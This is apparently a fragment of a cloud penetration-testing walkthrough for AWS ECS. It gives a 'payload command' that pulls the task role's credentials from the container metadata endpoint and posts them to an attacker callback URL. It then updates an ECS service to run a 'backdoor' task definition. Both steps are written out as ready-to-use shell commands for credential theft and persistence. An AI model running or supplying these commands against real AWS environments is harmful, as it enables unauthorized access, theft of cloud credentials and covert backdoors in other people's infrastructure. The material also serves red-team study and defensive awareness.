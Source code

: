* Use **task_def.json** to fill out **task_template.json** with the desired payload.

```bash # Payload command
/bin/sh -c \"curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI > data.json && curl -X POST -d @data.json {{CALLBACK URL}} \
````
<p align="center">
  <img src="/images/cloud/task_template1.png">
</p>

* **Update** the ECS service.

```bash
aws ecs update-service --service <service_arn> --cluster <cluster_arn> --task-definition <backdoor_task>
```

<p align="center">
  <img src="/images/cloud/update_ecs_efs.png">
</p>
